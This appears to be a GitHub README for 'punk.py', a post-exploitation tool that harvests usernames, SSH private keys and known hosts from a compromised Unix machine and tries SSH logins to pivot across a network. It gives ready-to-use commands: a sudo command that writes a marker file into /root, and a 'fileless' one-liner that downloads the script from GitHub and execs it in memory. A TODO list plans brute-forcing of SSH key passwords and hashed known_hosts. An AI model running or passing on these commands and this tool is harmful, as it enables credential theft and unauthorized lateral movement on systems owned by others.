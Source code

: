 # punk.py

*unix SSH post-exploitation 1337 tool*



## how it works

punk.py is a post-exploitation tool meant to help network pivoting from a compromised unix box.
It collect usernames, ssh keys and known hosts from a unix system, then it tries to connect via ssh to all the combinations found.
punk.py is wrote in order to work on standard python2 installations.



## Screenshot

![screenshot from 2018-12-11 14-01-15](https://user-images.githubusercontent.com/635790/49803344-ce4a0000-fd4f-11e8-86f9-b49d7e31989a.png)



## examples

standard execution:

```
 ~$ ./punk.py
```

skip passwd checks and use a custom home path:

```
 ~$ ./punk.py --no-passwd --home /home/ldapusers/
```

execute commands with sudo:

```
 ~$ ./punk.py --run "sudo sh -c 'echo iamROOT>/root/hacked.txt'"
```

one-liner fileless ( with --no-passwd parameter ):
```
 ~$ python -c "import urllib2;exec(urllib2.urlopen('https://raw.githubusercontent.com/r3vn/punk.py/master/punk.py').read())" --no-passwd
```



## TODO
 - improve private keys hunting including dsa keys
 - Recursion
 - SSH keys with password bruteforce
 - Hashed known_hosts bruteforce ( https://blog.rootshell.be/2010/11/03/bruteforcing-ssh-known_hosts-files/ )

